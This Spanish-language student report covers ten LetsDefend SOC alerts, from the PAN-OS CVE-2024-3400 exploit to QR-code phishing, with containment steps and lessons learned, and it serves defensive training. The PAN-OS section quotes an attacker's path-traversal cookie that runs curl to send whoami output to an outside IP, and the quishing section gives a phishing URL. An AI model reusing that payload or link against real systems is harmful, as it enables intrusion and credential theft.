



# 4.2 Respuesta y seguimiento de incidentes (RA4.def)
## Índice

1. [SOC274 - Palo Alto Networks PAN-OS Command Injection Vulnerability Exploitation (CVE-2024-3400)](#1)
2. [SOC227 - Microsoft SharePoint Server Elevation of Privilege - Possible CVE-2023-29357 Exploitation](#2)
3. [SOC170 - Passwd Found in Requested URL - Possible LFI Attack](#3)
4. [SOC202 - FakeGPT Malicious Chrome Extension](#4)
5. [SOC239 - Remote Code Execution Detected in Splunk Enterprise](#5)
6. [SOC175 - PowerShell Found in Requested URL - Possible CVE-2022-41082 Exploitation](#6)
7. [SOC235 - Atlassian Confluence Broken Access Control 0-Day CVE-2023-22515](#7)
8. [SOC168 - Whoami Command Detected in Request Body](#8)
9. [SOC164 - Suspicious Mshta Behavior](#9)
10. [SOC251 - Quishing Detected (QR Code Phishing)](#10)

## SOC274 - Palo Alto Networks PAN-OS Command Injection Vulnerability Exploitation (CVE-2024-3400) 

1. Trabaja una memoria del trabajo realizado en la resolución de los incidentes. Tipo según taxonomía, Criticidad, Descripción del incidente para entender que ha sucedido. Utiliza imágenes y cualquier tipo de explicación y diagrama que permita aclarar tu trabajo.

- Taxonomia: Command Injection on Software
- Criticidad: Alto
- Descripción: Una vulnerabilidad de inyección de comandos se ha encontrado en el software de Palo Alto Networks PAN-OS 

Lo primero al revisar la incidencia, podemos ver que ya transmite un CVE, siendo el [CVE-2024-3400](https://security.paloaltonetworks.com/CVE-2024-3400), el cual revisaremos para detectar cual es dicha vulnerabilidad, y podemos comprobar que es una en la que tiene varios tipos de debilidades, los cuales son: Creación arbitraria de ficheros, Path Traversal y OS Command Injection.

El PA-Firewall-01 recibió una petición POST de la IP 144.172.79.92, siendo esta ‘/global-protect/login.esp/'. Como es lógico, el firewall lo detectó como la vulnerabilidad anteriormente mencionada, dado que detectó un SSEID alterado por el atacante, mostrando “SESSID=./../../../opt/panlogs/tmp/device_telemetry/hour/aaa\curl${IFS}144.172.79.92:4444?user=$(whoami)`”, que pretendía hacer el comando curl con el nombre de usuario. Debido a la seriedad del asunto, se escaló al L2 para una investigación más profunda.

Por lo pronto, se revisó el Endpoint para verificar todo:

Podemos comprobar que el Firewall puede ser afectado por la vulnerabilidad anteriormente mencionada. Además, verificando su tráfico, podemos comprobar que la transmisión es en dirección hacia el firewall.

Podemos comprobar dicha IP en la aplicación de Let's Defend para garantizar si es malicioso o no, además de una revisión extra en Virus Total, para tener una doble verificación:

También aparece en el tráfico de red de la propia máquina:

Una vez verificado todo, procedemos al análisis completo y profundo, dado que tenemos garantizado de que existe un ataque. Gracias a que tenemos el CVE del ataque, podemos comprobar los posibles exploits y formas que hayan podido atacar de una manera directa, empezando por los logs, dado que tenemos del día del ataque:

Al revisarlo, vemos que está la petición directa con el comando, garantizando que es malicioso el tráfico. Además, podemos ver que tiene un update.py adjunto, donde al revisar el hash en Virus Total, garantiza que es malicioso en su naturaleza.

Con todo, podemos garantizar que es Malicioso y que el tipo de ataque consiste en un Command Injection. Dado que no hubo avisos previos de posibles intentos de pruebas para testear la seguridad, podemos suponer que no es planeado por la propia empresa, y que debido a la IP del atacante, viene del exterior de la propia empresa. Debido a que las acciones fueron permitidas, el ataque fue exitoso, teniendo que pasar a hacer la contención de la máquina y aislarla del resto de la red hasta poder solucionarlo. 

2. Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el restablecimiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?

Bloquear los servicios y actualizarlos rápidamente para solventar la vulnerabilidad, dado que en un parche se ha podido solucionar.

3. Tras trabajar en la resolución del incidente ¿Qué acciones/actuaciones destacadas se han realizado para solucionar el incidente?

Se tuvo que aislar el dispositivo para tratar de evitar que se pudiera extender o que amenazara con proseguir con su uso no autorizado.

4. Realizar un proceso de análisis de las actuaciones llevadas a cabo y obtener un registro de lecciones aprendidas, para finalmente concluir en las posibles mejoras que podrías plantear para tu plan/playbooks desarrollado en la práctica anterior

- Estar informado de las nuevas vulnerabilidades y parches disponibles para garantizar la reacción rápida para solucionar el incidente.
- Monitorizar adecuadamente los IoC para detectar cuando se vulneran, complementado con análisis en profundidad.
- Tener diversidad de logs para poder tener una visión más amplia de lo que puede ocurrir.

5. Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Qué actuaciones has decidido para evitar que se pueda dar una situación similar?

- Mantener actualizado todos los sistemas para poder garantizar que las vulnerabilidades antiguas no puedan afectar a los sistemas si existe una versión que erradica dicha vulnerabilidad del sistema en si.

## SOC227 - Microsoft SharePoint Server Elevation of Privilege - Possible CVE-2023-29357 Exploitation 

1. Trabaja una memoria del trabajo realizado en la resolución de los incidentes. Tipo según taxonomía, Criticidad, Descripción del incidente para entender que ha sucedido. Utiliza imágenes y cualquier tipo de explicación y diagrama que permita aclarar tu trabajo.

- Taxonomia:
- Criticidad: Crítica
- Descripción: La vulnerabilidad CVE-2023-29357 es una vulnerabilidad de escalado de privilegios crítica que, cuando combinada con otras vulnerabilidades, puede llevar a ejecución de código remoto.

Podemos ver ya el [CVE-2023-29357](https://nvd.nist.gov/vuln/detail/CVE-2023-29357), donde podremos documentarnos de este ataque, junto con esta información:

- IP del atacante: 39.91.166.222
- User-Agent: python-requests/2.28.1, que indica que un script de python se ha usado para el ataque en cuestión.

Al revisarlo en Virus Total y los logs, podemos verificar que es malicioso. Además, ante la carencia de emails indicando posibles pruebas de seguridad, garantiza que no es de nuestra compañía, y por tanto, que tiene malas intenciones. Aparte, podemos ver que ha podido acceder a siteusers y currentusers, obteniendo información de usuario, y por tanto, obliga a hacer una contención y escalarlo.

2. Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el restablecimiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?

Se ha tenido que contener la máquina afectada para evitar que se pueda expandir a otros usuarios y máquinas de la red.

3. Tras trabajar en la resolución del incidente ¿Qué acciones/actuaciones destacadas se han realizado para solucionar el incidente?

Aislar la máquina afectada y aplicar una actualización inmediata para poder retirar la vulnerabilidad.

4. Realizar un proceso de análisis de las actuaciones llevadas a cabo y obtener un registro de lecciones aprendidas, para finalmente concluir en las posibles mejoras que podrías plantear para tu plan/playbooks desarrollado en la práctica anterior

- Verificar los IoC para tener un punto claro de actuación.
- Garantizar que todos los equipos estén actualizados para evitar que puedan aplicarse vulnerabilidades antiguas, y comprobar las nuevas que puedan ir surgiendo.

5. Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Qué actuaciones has decidido para evitar que se pueda dar una situación similar?

- Actualizar los sistemas de manera sistemática y automática para que se pueda garantizar la mayor protección posible.

## SOC170 - Passwd Found in Requested URL - Possible LFI Attack 

1. Trabaja una memoria del trabajo realizado en la resolución de los incidentes. Tipo según taxonomía, Criticidad, Descripción del incidente para entender que ha sucedido. Utiliza imágenes y cualquier tipo de explicación y diagrama que permita aclarar tu trabajo.

- Taxonomia: Ataque Web
- Criticidad: Alta
- Descripción: Se encontró passwd en la petición URL, un posible ataque LFI.

Al revisar la descripción de la propia incidencia, podemos comprobar que intentan acceder al passwd mediante un acceso directo en la URL, además de tener la IP de inicio, 172.16.17.13; la cual podemos comprobar en los logs para ver sus acciones.

Definitivamente intentó algo, pero en este caso, a pesar de haber sido aceptada por el sistema, ha dado la respuesta 500, indicando que no ha podido acceder al final al archivo. Eso significa que aunque ha habido un intento, no ha sido exitoso.

También podemos verlo en el firewall. Ha sido un ataque web que por suerte, no ha podido realizarse con éxito, haciendo que no sea necesaria ninguna acción de contención, ni requiera un escalado al siguiente nivel.

2. Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el restablecimiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?

Debido a que fue un intento fallido, no ha sido necesaria ninguna acción.

3. Tras trabajar en la resolución del incidente ¿Qué acciones/actuaciones destacadas se han realizado para solucionar el incidente?

No ha habido que realizar acciones destacadas más allá de revisar los logs y el tipo de ataque, debido a que ha sido un ataque fallido.

4. Realizar un proceso de análisis de las actuaciones llevadas a cabo y obtener un registro de lecciones aprendidas, para finalmente concluir en las posibles mejoras que podrías plantear para tu plan/playbooks desarrollado en la práctica anterior

- Mejorar la seguridad en el servidor web para garantizar que no vuelvan a intentar este tipo de ataques.
- Comprobar los IoC para asegurar que siguen actualizados con los parametros actuales, y añadir análisis profundos.
- Actualizar el servidor a la última versión posible.

5. Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Qué actuaciones has decidido para evitar que se pueda dar una situación similar?

- Actualizar el servidor a la última versión posible.
- Revisar la configuración de seguridad del Servidor Web para poder garantizar su seguridad.

## SOC202 - FakeGPT Malicious Chrome Extension 

1. Trabaja una memoria del trabajo realizado en la resolución de los incidentes. Tipo según taxonomía, Criticidad, Descripción del incidente para entender que ha sucedido. Utiliza imágenes y cualquier tipo de explicación y diagrama que permita aclarar tu trabajo.

- Taxonomia: Extensión maligna de Chrome
- Criticidad: Alta
- Descripción: Fake GPT Extensión maliciosa de Chrome.

Se ha detectado un archivo sospechoso en el equipo de Samuel, con IP 172.16.17.173, bajo una instalación de una extensión de FakeGPT (que consiste en el ChatGPT basado en malware).

Por lo que se vé, está intentando abrir o manipular una extensión de Chrome, y está en permitido, haciendo que no se haya tomado ninguna acción para detenerlo, haciendo que sea necesario una investigación profunda, iniciando por el historial de navegación de Samuel, donde se le ve buscando precisamente esa extensión.

Esto hace que haya posiblemente sido el propio usuario quien lo haya instalado, haciendo que sea necesaria una contención, dado que en la verificación anterior, no se ha hecho esfuerzos para hacer una cuarentena. Al investigar la propia extensión, podemos comprobar que ha sido eliminada del Chrome Store debido a que fue categorizada como malware.

Al revisar los logs, podemos comprobar que ya ha sido accedido, provocando que sea necesaria una contención inmediata del sistema para evitar que sigan pudiendo acceder.

2. Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el restablecimiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?

Se ha tenido que aislar el equipo de la red.

4. Tras trabajar en la resolución del incidente ¿Qué acciones/actuaciones destacadas se han realizado para solucionar el incidente?

Retirar la extensión y hacer un escaneo en búsqueda de persistencia. Además, interrogar al usuario Samuel para verificar el motivo de la instalación de la extensión.

5. Realizar un proceso de análisis de las actuaciones llevadas a cabo y obtener un registro de lecciones aprendidas, para finalmente concluir en las posibles mejoras que podrías plantear para tu plan/playbooks desarrollado en la práctica anterior

- Hacer lecciones sobre medidas de seguridad básica en el ámbito de navegadores web y sus peligros.
- Mantener actualizados los equipos.
- Investigar y reportar instalaciones sospechosas.

6. Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Qué actuaciones has decidido para evitar que se pueda dar una situación similar?

- Hacer unas lecciones sobre medidas de seguridad básica en el ámbito de navegadores web y sus peligros, para garantizar que estén bien formados los usuarios.

## SOC239 - Remote Code Execution Detected in Splunk Enterprise 

1. Trabaja una memoria del trabajo realizado en la resolución de los incidentes. Tipo según taxonomía, Criticidad, Descripción del incidente para entender que ha sucedido. Utiliza imágenes y cualquier tipo de explicación y diagrama que permita aclarar tu trabajo.

- Taxonomia: Ejecución de código remoto
- Criticidad: Alta
- Descripción: Detección de ejecución de código remoto en Splunk Enterprise

Pasamos a revisar la información inicial proporcionada por el incidente:

De esto, podemos obtener el host Splunk Enterprise y la IP 172.16.20.13; junto la dirección desde donde ha sido inyectado dicha IP, que es 180.101.88.240. Además, podemos verificar que no se tomó ninguna acción para contrarrestarlo, al estar en Allowed.

Revisamos la IP de origen del ataque en Virus Total, pudiendo verificar que es maligna:

Esto hace que revisemos el tráfico HTTP en busca de la IP y sus acciones, haciendo que podamos verificar sus intenciones, que es intentar obtener una reverse shell con la manipulación del XML del /opt/splunk/var/run/splunk/dispatch/1700556926.3/shell.xsl.

Una vez verificado esto, se hace la contención del equipo de Splunk Enterprise para garantizar que no puedan acceder y poder llegar a tomar acciones para remediación, necesitando escalarlo al L2 para su posible solución.

2. Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el restablecimiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?

Realizar una contención del equipo afectado para garantizar que no afecte a más equipos.

3. Tras trabajar en la resolución del incidente ¿Qué acciones/actuaciones destacadas se han realizado para solucionar el incidente?

Hacer la contención del equipo, previniendo la posible propagación.

4. Realizar un proceso de análisis de las actuaciones llevadas a cabo y obtener un registro de lecciones aprendidas, para finalmente concluir en las posibles mejoras que podrías plantear para tu plan/playbooks desarrollado en la práctica anterior

- Mejorar la seguridad XML ante este tipo de ataques.
- Mantener los equipos actualizados.
- Revisar los indicadores de IoC para garantizar una monitorización continua.

5. Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Qué actuaciones has decidido para evitar que se pueda dar una situación similar?

- Revisar periodicamente la seguridad XML para garantizar que no pueda volver a ocurrir.
- Mantener actualizado constantemente los equipos.

## SOC175 - PowerShell Found in Requested URL - Possible CVE-2022-41082 Exploitation 

1. Trabaja una memoria del trabajo realizado en la resolución de los incidentes. Tipo según taxonomía, Criticidad, Descripción del incidente para entender que ha sucedido. Utiliza imágenes y cualquier tipo de explicación y diagrama que permita aclarar tu trabajo.

- Taxonomia: SSRF
- Criticidad: Alta
- Descripción: PowerShell encontrado en la petición de URL, posible explotación del CVE-2022-41082

Al revisar de inicio la incidencia y sus datos iniciales, podemos comprobar que nos da ya de antemano el [CVE-2022-41082](https://www.incibe.es/incibe-cert/alerta-temprana/vulnerabilidades/cve-2022-41082), lo cual nos da pistas de lo que podemos encontrarnos, incluyendo un Server-Side Request Forgery (SSRF), que se basa en convencer al servidor para que haga peticiones a localizaciones internas a usuarios que normalmente no deberían tener acceso.

Por suerte, el ataque fue bloqueado por lo que nos dice los datos iniciales, así que suponemos que no ha habido efectos de los cuales tengamos que hacer una contención inmediata, aunque se debe revisar para garantizarlo. Revisando los logs, podemos ver cómo ha ido atacando intentando hacer que se genere el ataque:

Y revisando el Raw Log, podemos comprobar el método que están empleando, junto con verificación de que ha sido bloqueado, ya quedando demostrado que es un intento fallido:

Con esto, podemos confiar en que ha sido bloqueado el intento, y que no hace falta más actuación.

2. Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el restablecimiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?

Aparte de revisar los logs, no fue necesario realizar ningún tipo de actuación.

3. Tras trabajar en la resolución del incidente ¿Qué acciones/actuaciones destacadas se han realizado para solucionar el incidente?

No se tuvo que realizar ninguna actuación para solucionar el incidente. 

4. Realizar un proceso de análisis de las actuaciones llevadas a cabo y obtener un registro de lecciones aprendidas, para finalmente concluir en las posibles mejoras que podrías plantear para tu plan/playbooks desarrollado en la práctica anterior

- Revisar las configuraciones de seguridad para garantizar que estén actualizados.
- Mantener todos los equipos actualizados a la última versión posible.

5. Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Qué actuaciones has decidido para evitar que se pueda dar una situación similar?

- Mantener todos los equipos actualizados de manera periodica.

## SOC235 - Atlassian Confluence Broken Access Control 0-Day CVE-2023-22515 

1. Trabaja una memoria del trabajo realizado en la resolución de los incidentes. Tipo según taxonomía, Criticidad, Descripción del incidente para entender que ha sucedido. Utiliza imágenes y cualquier tipo de explicación y diagrama que permita aclarar tu trabajo.

- Taxonomia: Otro
- Criticidad: Alta
- Descripción: CVE-2023-22515 afecta ciertas versiones de Atlassian Confluence Data Center and Server, permitiendo cyber-actores de amenaza maliciosos para obtener acceso inicial a instancias de Confluence mediante la creación sin autorizar.

Revisando la información inicial, podemos obtener el [CVE-2023-22515](https://www.incibe.es/incibe-cert/alerta-temprana/vulnerabilidades/cve-2023-22515), lo cual ya nos da información detallada de lo que nos podemos enfrentar. Además, la información que nos provee el incidente nos otorga ciertos puntos de partida, tales como la Ip del host afectado (172.16.17.234) y el Ip del atacante (43.130.1.222).

A primera vista, parece una explotación del CVE anteriormente proporcionado, necesitando más información al respecto. Revisando la IP en la aplicación de Let's Defend, podemos verificar que es maliciosa:

También podemos ver que aparece en el host, garantizando que ha sido comprometida. Acto seguido, analizamos el tráfico, en el Raw Log, para verificar como ha sido realizado el ataque:

Se ve que ha sido exitoso con una petición GET, a una URL especifica del servidor. Una acción posterior le dio mayores accesos como administrador, haciendo que se confunda y esté en un estado que piense que no ha terminado la configuración inicial. Además, no ha sido un testeo planeado ante la ausencia de correos, junto con que la dirección IP proviene desde fuera de la empresa. Todo esto determina que el ataque ha sido exitoso, y se necesitan medidas de contención y aislamiento para poder remediar, subiendo a un escalado de L2.

2. Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el restablecimiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?

Se ha tenido que realizar la contención y aislamiento de la máquina para poder proteger al resto de equipos.

3. Tras trabajar en la resolución del incidente ¿Qué acciones/actuaciones destacadas se han realizado para solucionar el incidente?

Se tuvo que actualizar la máquina a una versión soportada que no se vea afectada por la vulnerabilidad y determinar hasta que nivel ha sido afectado.

4. Realizar un proceso de análisis de las actuaciones llevadas a cabo y obtener un registro de lecciones aprendidas, para finalmente concluir en las posibles mejoras que podrías plantear para tu plan/playbooks desarrollado en la práctica anterior

- Mantener actualizado los sistemas para garantizar una reducción de las vulnerabilidades que pueda afectar a los sistemas.
- Mantener una monitorización constante de los IoC.

5. Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Qué actuaciones has decidido para evitar que se pueda dar una situación similar?

- Realizar actualizaciones periódicas e intentar subir siempre a la versión más actualizada que pueda soportar el hardware. 

## SOC168 - Whoami Command Detected in Request Body 

1. Trabaja una memoria del trabajo realizado en la resolución de los incidentes. Tipo según taxonomía, Criticidad, Descripción del incidente para entender que ha sucedido. Utiliza imágenes y cualquier tipo de explicación y diagrama que permita aclarar tu trabajo.

- Taxonomia: Command Injection Web Attack
- Criticidad: Alta
- Descripción: Comando whoami detectado en la petición Body

Con la revisión de la información inicial, podemos suponer que el ataque ha sido exitoso, debido a que el estado de Allowed significa que no se ha hecho ninguna medida para prevenir que siga ocurriendo:

Al revisar el firewall, podemos comprobar que ha sido detectado desde la IP 172.16.17.16 varios intentos que intentan insertar comandos de shell para intentar obtener la información del equipo entre otros:

Revisando la IP en Virus Total, surgen varias alarmas, indicando que la IP es maliciosa de por si. 

Esto hace que sea necesario realizar una contención del sistema, para garantizar que pueda hacerse la remediación y el escalado al L2.

2. Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el restablecimiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?

Ha sido necesario realizar la contención del equipo para aislarlo de la red.

3. Tras trabajar en la resolución del incidente ¿Qué acciones/actuaciones destacadas se han realizado para solucionar el incidente?

Se ha tenido que revisar la configuración de seguridad para poder establecer una mejor política de prevención de este tipo de ataques, para evitar que puedan intentar insertar comandos de nuevo.

4. Realizar un proceso de análisis de las actuaciones llevadas a cabo y obtener un registro de lecciones aprendidas, para finalmente concluir en las posibles mejoras que podrías plantear para tu plan/playbooks desarrollado en la práctica anterior

- Revisar las configuraciones de seguridad de manera periodica para poder actualizarlas y mejorarlas.
- Revisar los CVE de manera periodica para poder verificar que no haya nuevas vulnerabilidades y, si las hay, poder tomar medidas para prevenirlas.
- Mantener actualizados los equipos de manera periodica para garantizar que la seguridad esté actualizada.

5. Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Qué actuaciones has decidido para evitar que se pueda dar una situación similar?

- Revisar las configuraciones de seguridad de los sitios web de manera periodica para poder mejorarla.

## SOC164 - Suspicious Mshta Behavior 

1. Trabaja una memoria del trabajo realizado en la resolución de los incidentes. Tipo según taxonomía, Criticidad, Descripción del incidente para entender que ha sucedido. Utiliza imágenes y cualquier tipo de explicación y diagrama que permita aclarar tu trabajo.

- Taxonomia: Binaries
- Criticidad: Alta
- Descripción: Se sospecha de actividad sospechosa del archivo mshta.

Revisamos la información inicial del incidente, en el cual podemos ver un archivo con extensión hta extraño:

Se realiza una comprobación en Virus Total del archivo, pudiendo obtener resultados de que es malicioso:

Debido a la presencia del mshta.exe, podemos hacer la suposición de que el archivo hta se ejecuta a través del exe, que al verificar el proceso padre, es explorer.exe. 

Además, revisando el historial de su CMD, se puede ver las acciones que tomó, además de su ejecución:

Ahora que estamos seguros de que ha sido comprometido, se procede a hacer una contención y erradicar la presencia de ese archivo y todo lo que pueda haber infectado.

2. Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el restablecimiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?

Contener y aislar el equipo del usuario para evitar que pueda afectar a otros y que pueda seguir escarbando información.

3. Tras trabajar en la resolución del incidente ¿Qué acciones/actuaciones destacadas se han realizado para solucionar el incidente?

Eliminar el archivo y programa del sistema y escanearlo en busca de posible persistencia.

4. Realizar un proceso de análisis de las actuaciones llevadas a cabo y obtener un registro de lecciones aprendidas, para finalmente concluir en las posibles mejoras que podrías plantear para tu plan/playbooks desarrollado en la práctica anterior

- Es necesario mantener una seguridad sobre los Binaries de Windows, dado que mshta es un archivo que puede ser explotado.
- Monitorizar la actividad de los archivos, y verificar que hagan lo que deban hacer.

5. Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Qué actuaciones has decidido para evitar que se pueda dar una situación similar?

Mantener una vigilancia constante para poder detectarlo cuanto antes.

## SOC251 - Quishing Detected (QR Code Phishing) 

1. Trabaja una memoria del trabajo realizado en la resolución de los incidentes. Tipo según taxonomía, Criticidad, Descripción del incidente para entender que ha sucedido. Utiliza imágenes y cualquier tipo de explicación y diagrama que permita aclarar tu trabajo.

- Taxonomia: Quishing
- Criticidad: Media
- Descripción: Un ataque de Quishing detectado en un email.

Pasamos a revisar la información inicial, pudiendo ver que se envió un correo a Claire, y que además, fue una acción permitida, indicando que es posible que haya tenido éxito el ataque:

Podemos ver el título del email, que es ""New Year's Mandatory Security Update: Implementing Multi-Factor Authentication (MFA)"; un mensaje que posiblemente sea una forma para poder obtener acceso mediante el phishing. Vamos al correo en cuestión, pudiendo ver el grueso y el código QR:

Revisando el propio código QR, podemos ver que tenía una URL bastante sospechosa (https://ipfs.io/ipfs/Qmbr8wmr41C35c3K2GfiP2F8YGzLhYpKpb4K66KU6mLmL4#), que procedemos a analizar en Virus Total

Y analizando el propio código fuente de la página a la que redirige, podemos comprobar que pide el emails y contraseñas, necesitando hacer una contención del sistema de las cuentas de correo y las contraseñas, dado que han sido vulneradas.

2. Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el restablecimiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?

Hacer la contención de los correos y contraseñas del usuario, y verificar que otros usuarios no hayan sido infectados por el mismo correo y código QR

3. Tras trabajar en la resolución del incidente ¿Qué acciones/actuaciones destacadas se han realizado para solucionar el incidente?

Restaurar todas las cuentas de correo con nuevas contraseñas, además de terminar de revisar que ningún otro usuario haya sido afectado.

4. Realizar un proceso de análisis de las actuaciones llevadas a cabo y obtener un registro de lecciones aprendidas, para finalmente concluir en las posibles mejoras que podrías plantear para tu plan/playbooks desarrollado en la práctica anterior

- Enseñar métodos para detectar posibles correos maliciosos a los usuarios.
- Verificar siempre que el correo proviene de la empresa que indica.
- Emplear filtros de correo

5. Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Qué actuaciones has decidido para evitar que se pueda dar una situación similar?

- Educar a todos los empleados de los métodos de detección de phishing y cómo reportarlos.
- Resetear y actualizar las contraseñas de manera periódica.
- Emplear filtros de correos.
- Implementar un producto que pueda analizar códigos QR
